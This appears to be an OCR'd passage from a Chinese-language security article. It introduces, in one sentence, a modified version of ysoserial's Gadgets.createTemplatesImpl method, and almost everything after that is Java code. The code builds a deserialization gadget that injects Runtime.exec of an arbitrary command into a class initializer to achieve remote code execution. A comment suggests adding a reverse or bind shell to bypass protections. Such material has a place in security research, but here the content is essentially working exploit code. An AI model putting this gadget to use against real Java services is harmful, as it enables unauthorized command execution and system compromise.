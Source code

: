 接着，我们改造一下ysoserial中的Gadgets.createTemplatesImpl方法

    public static Object createTemplatesImpl ( final String command) throws Exception {
        return createTemplatesImpl(command, null);
    }

    public static Object createTemplatesImpl ( final String command, final Class c ) throws Exception {
        if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
            return createTemplatesImpl(
                command, c,
                Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
                Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
                Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
        }

        return createTemplatesImpl(command, c, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class);
    }


    public static <T> T createTemplatesImpl ( final String command, Class c, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
            throws Exception {
        final T templates = tplClass.newInstance();
        final byte[] classBytes;
        if (c == null) {
            // use template gadget class
            ClassPool pool = ClassPool.getDefault();
            pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
            pool.insertClassPath(new ClassClassPath(abstTranslet));
            final CtClass clazz = pool.get(StubTransletPayload.class.getName());
            // run command in static initializer
            // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
            String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
                command.replaceAll("\\\\", "\\\\\\\\").replaceAll("\"", "\\\"") +
                "\");";
            clazz.makeClassInitializer().insertAfter(cmd);
            // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
            clazz.setName("ysoserial.Pwner" + System.nanoTime());
            CtClass superC = pool.get(abstTranslet.getName());
            clazz.setSuperclass(superC);
            classBytes = clazz.toBytecode();
        } else {
            classBytes = ClassFiles.classAsBytes(c);
        }


        // inject class bytes into instance
        Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
            classBytes, ClassFiles.classAsBytes(Foo.class)
        });

        // required to make TemplatesImpl happy
        Reflections.setFieldValue(templates, "_name", "Pwnr");
        Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
        return templates;
    }
